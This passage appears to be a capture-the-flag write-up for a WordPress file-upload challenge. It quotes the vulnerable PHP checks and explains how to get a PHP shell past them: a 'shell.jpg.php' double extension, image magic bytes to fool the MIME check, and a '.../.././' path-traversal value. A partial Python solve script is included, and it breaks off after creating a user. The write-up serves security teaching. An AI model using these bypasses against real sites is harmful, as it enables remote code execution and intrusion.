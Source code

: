So to exploit this challenge we need to gain RCE by using this file upload.

```php
        if (!move_uploaded_file($tmp_name, $file_path)) {
            return new WP_Error('error', 'Failed to upload file');
        }
```

but we must bypass some waff in it

```php
        $allowed_ext = ['jpg', 'jpeg', 'png'];

        if (!in_array(strtolower(explode('.', $filename)[1]), $allowed_ext)) {
            return new WP_Error('error', 'File type not allowed: ' . implode(',', $allowed_ext));
        }

        $mime_type = mime_content_type($tmp_name);

        if (!in_array($mime_type, ['image/jpeg', 'image/png'])) {
            return new WP_Error('error', 'Invalid file type!');
        }

        $upload_dir = upload_directory() . '/' . $first_name . '_' . $last_name;

        // Clean directory path
        $upload_dir = str_replace('./../', '', $upload_dir);

```

The `!in_array(strtolower(explode('.', $filename)[1]), $allowed_ext)` check can be bypassed by appending a `.jpg` extension to the file name, like this: `shell.jpg.php`. This works because the check only validates the first extension and not the last.

For `!in_array($mime_type, ['image/jpeg', 'image/png'])`, you can add JPEG or PNG magic bytes at the beginning of the file to trick `mime_content_type` into recognizing it as an image file. This way, the file will pass the MIME type validation even though it contains PHP code.

## Obtaining the Flag

Here is my solve script to solve this challenge:

```python
import httpx
import asyncio
import re
import random

URL = "http://3.14.248.34:9019/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)
    def make_user(self, user_login: str, user_pass: str, firs_name: str, last_name: str):
        return self.c.post("/wp-json/%F0%9F%8F%A0/%F0%9F%AA%A8/%F0%9F%97%AF%EF%B8%8F", data={"👤": user_login, "🔑": user_pass, "🥇": firs_name, "🏁": last_name})
    def upload_image(self, image: str, nonce: str):
        return self.c.post("/wp-json/%F0%9F%8F%A0/%F0%9F%AA%A8/%F0%9F%96%BC%EF%B8%8F", files={"🖼️": image}, data={"_wpnonce": nonce})
class API(BaseAPI):
    ...

async def main():
    api = API()
    username = "asdniqws"+str(random.randint(0, 100000))
    password = "asdniqws"+str(random.randint(0, 100000))
    res = await api.make_user(username, password, ".../.././", "")
```